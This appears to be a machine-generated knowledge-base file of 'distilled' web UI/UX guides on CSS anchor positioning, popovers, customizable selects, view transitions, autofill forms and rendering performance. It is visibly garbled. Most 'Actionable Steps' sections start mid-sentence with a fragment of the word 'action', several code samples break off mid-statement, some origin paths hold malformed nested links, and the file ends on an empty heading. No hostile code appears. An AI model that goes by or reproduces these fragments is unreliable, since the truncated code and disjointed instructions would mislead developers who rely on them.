Imagine a tooltip that appears above its anchor by default. It has a "down" arrow at the bottom. If the user scrolls and the tooltip flips to appear *below* the anchor, the arrow is now pointing the wrong way and is on the wrong side of the tooltip.


By setting `container-type: anchored` on your positioned element, you turn it into a query container that knows about its own anchor-positioned state. You can then use the `@container anchored()` query to update its descendants or pseudo-elements.


Use the Popover API to create a tooltip. This creates an implicit anchor connection that can be used for positioning.

```html
<button popovertarget="tooltip" id="anchor" aria-describe...

#### 🔗 Traceability:
- [Source Context]([position-aware-tooltips.md](../tdd/NEXUS_POSITION-AWARE-TOOLTIPS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_UI-UX.MD

## 🎓 UI-UX WISDOM DISTILLATION [v3923] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Accessible Error Announcement
> **Origin**: `ui-ux/NEXUS_ACCESSIBLE-ERROR-ANNOUNCEMENT.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action has occurred.

#### 🔗 Traceability:
- [Source Context](NEXUS_ACCESSIBLE-ERROR-ANNOUNCEMENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_ANIMATE-TO-FROM-TOP-LAYER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v4 | **Last Updated**: 26/05/2026

Elements that render in the "top layer" (like `<dialog>`, elements with the `popover` attribute, or tooltips) have historically been difficult to animate because they toggle between `display: none` and a visible state. Modern CSS provides `@starting-style`, `transition-behavior: allow-discrete`, and the `overlay` property to enable smooth entry and exit transitions for these elements. Note that native CSS nesting is used in the examples below.


To animate the `display` property, you must set `transition-behavior: allow-discrete`. This allows the element to remain visible during its exit transition. If using transition shorthands, be sure to place the `transition-behavior: allow-discrete` afterwards to prevent the shorthand from negating it.


When an element moves in or out of the top layer, it must transition the `overlay` property. This ensures the element stays in the top layer for the duration of the animation, preventing it from being clipped by other elements or the viewport prematurely.


Use the `@starting-style` at-rule to define the styles an element should transition *from* when it is first rendered or...

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATE-TO-FROM-TOP-LAYER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Animate to Intrinsic Sizes
> **Origin**: `ui-ux/NEXUS_ANIMATE-TO-INTRINSIC-SIZES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action (e.g., `:hover` or a state class).
4.  **Perform calculations (Optional)**: Use `calc-size()` if you need to perform math on an intrinsic size (e.g., `auto + 2rem`). `calc-size()` also supports the `any` keyword for basis-agnostic calculations.

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATE-TO-INTRINSIC-SIZES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Animated Select Picker
> **Origin**: `ui-ux/NEXUS_ANIMATED-SELECT-PICKER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to animate `<select>` elements and their dropdown pickers. By combining `appearance: base-select` with modern CSS animation techniques—such as `@starting-style` and the `allow-discrete` transition behavior—you can create fluid, premium UI transitions for top-layer elements without relying on heavy JavaScript libraries.

Previously, animating native select dropdowns was impossible because their UI was rendered outside the accessible viewport constraints. With `appearance: base-select`, the picker becomes styleable and animatable like any other page element.


To implement an animated select picker:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element.
2. **Enable auto-sizing transitions (Optional):** Define `interpolate-size: allow-keywords` (usually on `:root`) to allow the browser to transition between discrete metric values like `height: auto` and `height: 0`.
3. **Animate the top-layer container:** Apply standard entry/exit styles to `::picker(select)`. To make sure th...

#### 🔗 Traceability:
- [Source Context](NEXUS_ANIMATED-SELECT-PICKER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Apply WebGL shaders to HTML content
> **Origin**: `ui-ux/NEXUS_APPLY-WEBGL-SHADERS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(h

#### 🔗 Traceability:
- [Source Context](NEXUS_APPLY-WEBGL-SHADERS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build an address form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-ADDRESS-FORM.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-ADDRESS-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Use the CSS :autofill pseudo-class to highlight form fields that have been autofilled by the browser and not edited by the user
> **Origin**: `ui-ux/NEXUS_AUTOFILL-HIGHLIGHT-INPUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use the CSS `:autofill` to highlight fields that have (or have not been) autofilled, to help guide the user to successful form completion.


To highlight a form field that has been autofilled by the browser (and not edited by the user) add a selector to your CSS using the `:autofill` class. This can be used for an `<input>`, `<select>`, or `<textarea>` element.

When styling autofilled states, you must adhere to accessibility best practices:
- **Multiple State Indicators**: Do not rely on border color alone to indicate the autofilled state. Use multiple indicators such as border thickness and custom background shading to ensure the state is perceivable.
- **Preserve Focus Indicators**: Never remove focus outlines (`outline: none`) without providing a clear, high-contrast replacement for keyboard users.

The following example uses `:autofill` to set a custom border and background, along with explicit focus styles:

```css
input:autofill,
input:-webkit-autofill {
  /* Multiple indicators: use both a distinct border and background color via box-shadow to avoid color-only state */
  border: 2px solid #2e7d32;
  box-...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-HIGHLIGHT-INPUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a payment form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-PAYMENT-FORM.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action that shows progress and makes the next step obvious. For example, label the submit button on your delivery address form **Proceed to Payment** rather than **Continue** or **Save**.

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-PAYMENT-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a sign-in form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-SIGN-IN-FORM.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-in forms that are secure, accessible and easy to use.

If users ever need to sign in to your site, then good sign-in form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-in forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-in opportunity.


Outlined below are the most important guidelines for building successful sign-in forms.


Make the most of the elements and attributes built for creating forms:

- `<form>`, `<input>`, `<label>`, and `<button>`
- `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.


To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.


Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and enab...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-SIGN-IN-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Build a sign-up form that follows best practice
> **Origin**: `ui-ux/NEXUS_AUTOFILL-SIGN-UP-FORM.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use cross-platform browser features to build sign-up forms that are secure, accessible and easy to use.

If users ever need to sign up to your site, then good sign-up form design is critical. This is especially true for people on poor connections, on mobile, in a hurry, or under stress. Poorly designed sign-up forms get high bounce rates. Each bounce could mean a lost customer and a disgruntled user—not just a missed sign-up opportunity.


Outlined below are the most important guidelines for building successful sign-up forms.


Make the most of the elements and attributes built for creating forms:

-   `<form>`, `<input>`, `<label>`, and `<button>`
-   `type`, `autocomplete`, and `inputmode`

These enable built-in browser functionality, improve accessibility, and add meaning to markup.


To label an `<input>`, `<select>`, or `<textarea>`, use a `<label>`. Associate a label with an input by giving the label's `for` attribute the same value as the input's `id`.


Make it easy for users to enter data, by using the appropriate `<input>` element `<type>` attribute to provide the right keyboard on mobile and ...

#### 🔗 Traceability:
- [Source Context](NEXUS_AUTOFILL-SIGN-UP-FORM.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Brand-Consistent Forms
> **Origin**: `ui-ux/NEXUS_BRAND-CONSISTENT-[FORMS.MD](../security/NEXUS_FORMS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Customizing standard HTML form elements like checkboxes and radio buttons has historically been difficult. Developers often faced a choice between using the browser defaults or building custom components from scratch. Building custom controls is time-consuming and can easily lead to accessibility issues or missing states (like the indeterminate state for checkboxes).

The CSS property `accent-color` provides a simple way to bring your brand color to built-in HTML form inputs with a single line of CSS, without sacrificing accessibility or built-in browser features.


To apply your brand color to form controls:

1. **Identify your brand color:** Choose a color that represents your brand.
2. **Apply the `accent-color` property:** Add `accent-color` to the element or a container element (like `body` or a specific form) in your CSS.
3. **Support Dark Mode (Optional but Recommended):** Use `color-scheme` to let the browser know your site supports dark mode, and adjust the `accent-color` if necessary for better contrast.


```css
:root {
  --brand-color: #6200ee;
}

/* Apply accent-color to the body or a specific co...

#### 🔗 Traceability:
- [Source Context](NEXUS_BRAND-CONSISTENT-[FORMS.MD](../security/NEXUS_FORMS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Branded Select Styling
> **Origin**: `ui-ux/NEXUS_BRANDED-SELECT-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to style `<select>` elements to perfectly match your brand's design system. By opting into `appearance: base-select`, you gain access to the internal shadow DOM of the select element, allowing you to style the button, the options picker list, the arrow icon, and the checkmark indicator using standard CSS properties.

Previously, achieving a fully branded select required rebuilding the control from scratch with JavaScript, which often broke accessibility, keyboard navigation, and native form integration. With `appearance: base-select`, you get a custom look while the browser handles focus management, top-layer rendering, and accessibility bindings.


To implement branded select styling:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element (which targets the drop-down list of options).
2. **Structure the custom button (Optional):** Define a `<button>` element directly inside the `<select>` to replace the default trigger. Use the `<selectedcontent>` element inside this button...

#### 🔗 Traceability:
- [Source Context](NEXUS_BRANDED-SELECT-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Breaking up long tasks
> **Origin**: `ui-ux/NEXUS_BREAK-UP-LONG-TASKS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Heavy computations or long loops can block the main thread, causing the page to become unresponsive. To prevent this, you should yield control back to the browser periodically. The `scheduler.yield()` API allows you to pause a long task and let the browser handle user input or rendering before continuing.


Use `scheduler.yield()` inside async functions to break up work.

```javascript
async function processLargeArray(items) {
  // DO: Set a time-based deadline 50 milliseconds into the future. 50
  // milliseconds is the boundary for when a task becomes a long task.
  let deadline = performance.now() + 50; // 50ms budget

  for (const item of items) {
    // Process the item
    processItem(item);
    
    // MANDATORY: Yield to the main thread periodically to keep the UI
    // responsive. This can be done by checking if the deadline set earlier
    // has been exceeded. When it has been, yield, then reset the deadline
    // another 50 milliseconds into the future.
    if (performance.now() >= deadline) {
      await scheduler.yield();
      deadline = performance.now() + 50;
    }
  }
}
```


Sched...

#### 🔗 Traceability:
- [Source Context](NEXUS_BREAK-UP-LONG-TASKS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Core implementation
> **Origin**: `ui-ux/NEXUS_CAROUSEL-SNAP-HIGHLIGHTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Scroll-state container queries allow you to style elements based on their current scroll state, such as whether an element is "stuck" (via sticky positioning) or "snapped" (via scroll snapping). This enables carousel or gallery experiences where the active item can be visually distinguished without relying on JavaScript intersection observers or scroll event listeners.


To highlight snapped items, you must establish a scroll-snap container, define the snap targets as scroll-state containers, and then query that state to style descendants.


The parent container must have `scroll-snap-type` enabled.

```html
<div class="carousel">
  <div class="carousel-item">
    <div class="card">Product 1 content</div>
  </div>
  <div class="carousel-item">
    <div class="card">Product 2 content</div>
  </div>
</div>
```

```css
.carousel {
  display: flex;
  overflow-x: auto;
  /* MANDATORY: Enable scroll snapping on the container */
  scroll-snap-type: x mandatory;
}
```


Each item in the carousel that should be tracked for snapping must be declared as a `scroll-state` container.

```css
.carousel-item {
  /...

#### 🔗 Traceability:
- [Source Context](NEXUS_CAROUSEL-SNAP-HIGHLIGHTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementing state-based container styling
> **Origin**: `ui-ux/NEXUS_CHILD-STATE-BASED-STYLING.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions, such as a localized theme toggle reacting to a checkbox (`:checked`), a form group highlighting an error (`:invalid`), or a card elevating when a child link is focused (`:focus-within`).

#### 🔗 Traceability:
- [Source Context](NEXUS_CHILD-STATE-BASED-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_COMPLEX-SHAPES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions from `0` to `1` (like `0.5` for 50%) instead of absolute pixels.

> **Luminance vs. Alpha Masking**: By default, SVG masks use **luminance** (brightness) to determine opacity, where white reveals, black hides, and gray creates semi-transparency. If you want the mask to use the **alpha channel** (transparency) of your SVG shapes instead, you can specify `mask-type: alpha;` in your CSS or `mask-type="alpha"` directly on the SVG `<mask>` element.

```html
<!-- White areas reveal content, gray creates semi-transparency, black or transparent hides it -->
<svg width="0" height="0">
  <defs>
    <!-- objectBoundingBox scales mask coordinates (0 to 1) with the element's size -->
    <mask id="custom-shape" maskContentUnits="objectBoundingBox">
      <!-- Use white shapes to defin

#### 🔗 Traceability:
- [Source Context](NEXUS_COMPLEX-SHAPES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Component-specific light/dark themes
> **Origin**: `ui-ux/NEXUS_COMPONENT-SPECIFIC-LIGHT-DARK-THEME.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While more commonly set on the root, the `color-scheme` property can be set on individual elements to force them into a different color scheme from the rest of the page.
This can be useful for components that must always be viewed in a specific color scheme (e.g. always in dark or light mode).

Example use cases include:
- Elements that are often in dark mode even on light mode pages for aesthetic reasons, e.g. code blocks, media players, photo galleries
- Areas that contain media designed for a light background (e.g. images, videos, illustrations, print previews) can be set to light mode even if the rest of the page is in dark mode.
- Elements whose color-scheme is controlled by a user-level setting, such as component previews
- Embeds that don't support both light and dark modes
- Design tools, maps, visualizations, games etc.


Not every element that uses lighter text on darker background in light mode or darker text on lighter background in dark mode needs a different `color-scheme`.
For example, a primary button may be rendered as blue with white text in light mode, but that does not warrant a `color-scheme: da...

#### 🔗 Traceability:
- [Source Context](NEXUS_COMPONENT-SPECIFIC-LIGHT-DARK-THEME.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Consistent Cross-Document Transitions
> **Origin**: `ui-ux/NEXUS_CONSISTENT-[CROSS-DOCUMENT-TRANSITIONS.MD](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Cross-document view transitions animate elements between two pages during a same-origin navigation. The browser captures a snapshot of the old page, navigates, then animates from the snapshot to the new page. If the new page has not finished loading critical resources — stylesheets, layout scripts, or key DOM elements — the transition animates to an incomplete or unstyled state. This causes visual glitches such as elements morphing to wrong positions, content reflowing mid-animation, or fallback fonts flashing to web fonts after the transition completes.


Use `blocking="render"` on critical `<link>` and `<script>` elements in the new page's `<head>`, and use `<link rel="expect">` to block rendering until specific DOM elements have been parsed. This ensures the browser does not begin the view transition animation until the new page's visual state is stable. The browser continues parsing the HTML in the background — only painting is deferred.


1. **MANDATORY:** Opt in to cross-document view transitions with the `@view-transition` CSS at-rule on both pages.
2. **MANDATORY:** Ensure critical stylesheets are in the `<...

#### 🔗 Traceability:
- [Source Context](NEXUS_CONSISTENT-[CROSS-DOCUMENT-TRANSITIONS.MD](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementing content-based container styling
> **Origin**: `ui-ux/NEXUS_CONTENT-BASED-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Historically, applying different layouts to a component based on its content required either JavaScript or conditional logic in your HTML templating language to inject modifier classes (like `.card--has-image` or `.card--text-only`).

The `:has()` pseudo-class eliminates this need by acting as a parent selector. It allows you to conditionally style a container element based on the presence or absence of specific descendant elements.

Using `:has()`, you can easily define distinct layout variations entirely in CSS based on a component's actual DOM content. You can also optionally combine it with `:not()` to explicitly target the *absence* of content to define default layouts.


**MANDATORY**: You must use the `:has()` selector on the container element to detect the presence of specific child content.

To build a component that changes its layout based on its content:

1. **Define the default styling**: Apply the base layout styles to the container element (e.g., a simple single-column stack).
2. **Apply content-based overrides**: Target the container with `:has([child-selector])` and apply the new layout styles for when...

#### 🔗 Traceability:
- [Source Context](NEXUS_CONTENT-BASED-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Custom Select Picker Layouts
> **Origin**: `ui-ux/NEXUS_CUSTOM-SELECT-PICKER-LAYOUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Custom Select Picker Layouts" allow developers to break away from the traditional vertical list of options in a `<select>` dropdown. Using `appearance: base-select` and the `::picker(select)` pseudo-element, you can style the options list using modern CSS layout techniques like Grid or Flexbox. This is ideal for color pickers, emoji selectors, or product variants where a visual menu is more effective than a list.

The CSS property `appearance: base-select` unlocks the ability to style the internal parts of a `<select>` element. By targeting `select::picker(select)`, you can apply `display: grid` and position options in columns, creating a rich visual experience without custom JavaScript.


To implement a custom select picker layout:

1. **Activate Base Styling:** Apply `appearance: base-select` to both the `<select>` element and its internal picker pseudo-element `select::picker(select)`.
2. **Style the Picker Container:** Target `select::picker(select)` and apply `display: grid` (or `display: flex`). Define columns and gaps as you would for any container.
3. **Style Options:** Target the `<option>` elements to style ...

#### 🔗 Traceability:
- [Source Context](NEXUS_CUSTOM-SELECT-PICKER-LAYOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_DECLARATIVE-DIALOG-POPOVER-CONTROL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action) attributes to a `<button>`, the browser automatically handles open/close state changes, focus management, and accessibility bindings (such as `aria-expanded`). This declarative approach is recommended because it removes brittle boilerplate code, ensures interactions are functional immediately upon HTML parsing, and guarantees a robust, natively accessible user experience.

#### 🔗 Traceability:
- [Source Context](NEXUS_DECLARATIVE-DIALOG-POPOVER-CONTROL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Defer rendering heavy content
> **Origin**: `ui-ux/NEXUS_DEFER-RENDERING-HEAVY-CONTENT.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions. Modern web technologies allow you to defer the rendering workload for content that is not immediately visible, significantly boosting performance without breaking accessibility or user expectations.

To optimize rendering, you can utilize the CSS `content-visibility` property and the HTML `hidden="until-found"` attribute. While both aid performance, they serve distinct use cases.

#### 🔗 Traceability:
- [Source Context](NEXUS_DEFER-RENDERING-HEAVY-CONTENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Defer Work Until Scroll Ends
> **Origin**: `ui-ux/NEXUS_DEFER-WORK-UNTIL-SCROLL-ENDS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions if you're building carousels or testimonial galleries slides.
- **DO NOT** bundle layout-dependent dynamic updates inside dynamic visual scroll callbacks.
- **DO** consider that visual viewport zooming and scrolling triggers the `scrollend` event correctly.

#### 🔗 Traceability:
- [Source Context](NEXUS_DEFER-WORK-UNTIL-SCROLL-ENDS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `ui-ux/NEXUS_DIRECTIONAL-NAVIGATION-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Single Page Applications (SPAs) provide the appearance of navigation by replacing the content of the page without navigating to a new page. By default, the content is simply replaced, without any transitions. Directional transitions can visually reinforce a spatial relationship between views. 

By sliding new content in from the direction the user is moving you create a mental map of the application structure. For instance, a product site may show a transition to the right for "forward," and to the left for "back", or a slideshow may transition up and down to show next and previous slides.


1. **Detect Navigation Direction**: Determine if the user is moving "forward" or "backward" in the application flow. How you detect the direction depends on your use case.
2. **Trigger Transition with Types**: Pass the direction in a `types` array to `document.startViewTransition()` to categorize the transition.
3. **Define Directional Animations with CSS**: Use the `:active-view-transition-type()` pseudo-class to apply specific animations based on the navigation type.


Define sliding animations to and from each direction. For bes...

#### 🔗 Traceability:
- [Source Context](NEXUS_DIRECTIONAL-NAVIGATION-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Efficient Background Processing
> **Origin**: `ui-ux/NEXUS_EFFICIENT-BACKGROUND-PROCESSING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Pause heavy background tasks when a component is not being rendered by the browser to conserve system resources and battery life.


The `content-visibility: auto` property allows the browser to skip rendering calculations for elements that are far outside the viewport. When the browser decides to skip or resume rendering for an element, it fires the `contentvisibilityautostatechange` event on that element.

By listening to this event, you can pause expensive operations like `<canvas>` animations, WebGL rendering, or high-frequency WebSocket data polling when they are not needed, and resume them just-in-time when the browser prepares to display the content.


It is important to understand when to use which API:

*   **Use `IntersectionObserver` for application logic** tied to the exact visual visibility of an element in the viewport (e.g., lazy-loading data, infinite scroll triggers).
*   **Use `contentvisibilityautostatechange` for rendering-heavy work** (like complex canvas updates or heavy DOM mutations). This event ties directly to the browser's internal rendering lifecycle. The browser often starts rendering an...

#### 🔗 Traceability:
- [Source Context](NEXUS_EFFICIENT-BACKGROUND-PROCESSING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Export HTML content from canvas
> **Origin**: `ui-ux/NEXUS_EXPORT-HTML-MEDIA-FROM-CANVAS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions frame by frame, for example, for streaming, capture DOM mutations using libraries like `rrweb`. 

Alternatively, implement a warning that HTML media export is not supported in the browser because it doesn't support HTML-in-Canvas.

#### 🔗 Traceability:
- [Source Context](NEXUS_EXPORT-HTML-MEDIA-FROM-CANVAS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Faster SPA View Transitions via State Caching
> **Origin**: `ui-ux/NEXUS_FASTER-SPA-VIEW-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Enable instant navigation between views in a Single-Page Application (SPA) by caching the rendered state of inactive views instead of destroying them.


Traditionally, when a user navigates between tabs or views in an SPA, developers either destroy the old view or hide it using `display: none`. Both approaches require the browser to recreate or recalculate the full layout and paint when the user returns to that view.

By using `content-visibility: hidden` on inactive views, the browser removes the element’s contents from the layout flow and stops painting it, but *retains* its cached rendering state in memory. When the user switches back, the view restores nearly instantly.


While this approach offers massive performance benefits, it introduces a specific trade-off that you must manage carefully:

*   **CPU Savings:** Massive. The browser completely skips layout and paint passes for hidden views.
*   **RAM Cost:** High. The browser keeps all DOM nodes, event listeners, and state for the hidden view in memory.


*   **DO** use this strategy for simple applications with a small, predictable number of views (e.g...

#### 🔗 Traceability:
- [Source Context](NEXUS_FASTER-SPA-VIEW-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_FLUID-SCALING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Fluid scaling allows components to adjust their internal proportions (like font sizes and spacing) based on their current dimensions. This creates a more cohesive design than jumping between fixed breakpoints.

While fluid scaling was historically achieved using viewport units (scaling based on the screen size), modern container query units allow components to scale relative to their parent container instead. This ensures components look good regardless of where they are placed in a layout, promoting better component isolation and reusability.


To use container query units, you must first define a containment context on a parent element.

```css
.component-wrapper {
  /* Define the container type. Use 'inline-size' for width-based scaling. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
  
  /* Optional: Name the container for specific targeting */
  container-name: fluid-card;
}
```


Use container query units (`cqi`, `cqb`, etc.) to set sizes relative to the container's dimensions.

*   `cqi`: 1% of the container's inlin...

#### 🔗 Traceability:
- [Source Context](NEXUS_FLUID-SCALING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Auto-sizing form controls
> **Origin**: `ui-ux/NEXUS_FORM-FIELDS-AUTOMATICALLY-FIT-CONTENTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

By default, form controls like `<input>`, `<textarea>`, and `<select>` have fixed dimensions. Their sizes remain constant, regardless of the amount of content the user enters or selects.

To allow these controls to automatically shrink or grow to fit their content (including placeholders), use the `field-sizing: content` CSS property.


Setting `field-sizing: content` on inputs, selects, or textareas allows them to resize dynamically as the user types or selects options. However, you must account for inherited styling, layout defaults, and minimum/maximum constraints to ensure a robust user experience.

To prevent layout issues, it is recommended to set both `min-inline-size` (or `min-width`) and `max-inline-size` (or `max-width`) alongside `field-sizing: content` on text inputs. A minimum size prevents the input from collapsing to a width of zero when empty (making it unclickable), and a maximum size ensures it doesn't expand indefinitely and break the page layout.

For textareas, allowing horizontal auto-sizing can cause a jarring UX (e.g., a textarea with a long placeholder will abruptly shrink horizontally when the us...

#### 🔗 Traceability:
- [Source Context](NEXUS_FORM-FIELDS-AUTOMATICALLY-FIT-CONTENTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation steps
> **Origin**: `ui-ux/NEXUS_GROUP-ELEMENT-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

As items are added or removed from a list, or rearranged, transitions can help users maintain context. View transitions provide a way to transition between two states of an element by giving the element a unique `view-transition-name`. When multiple elements on a page share the same transition behavior, `view-transition-class` allows you to define that logic once in CSS rather than repeating it for every unique `view-transition-name`. This keeps your stylesheets maintainable while ensuring consistent animations across a group of elements.


1. **Assign unique names and a shared class**

Each element that needs to be tracked individually during a transition must have a unique `view-transition-name`.

```html
<!-- Mandatory: Each element must have a unique view-transition-name -->
<li style="view-transition-name: item-1" class="item">Item 1</li>
<li style="view-transition-name: item-2" class="item">Item 2</li>
```

To apply shared styles, also assign a `view-transition-class`.

```css
.item {
  view-transition-class: list-item;
}
```

2. **Define the shared transition logic**
   
Use the `::view-transition-gro...

#### 🔗 Traceability:
- [Source Context](NEXUS_GROUP-ELEMENT-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Identify heavy-running JavaScript
> **Origin**: `ui-ux/NEXUS_IDENTIFY-HEAVY-SCRIPTS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions.

The Long Animation Frames API is a lightweight API that can be used to identify heavy-running JavaScript in the field. A heavy-running script can be either a single long-running script, or a script that runs multiple times during the page lifecycle.

#### 🔗 Traceability:
- [Source Context](NEXUS_IDENTIFY-HEAVY-SCRIPTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Identify causes of poor INP
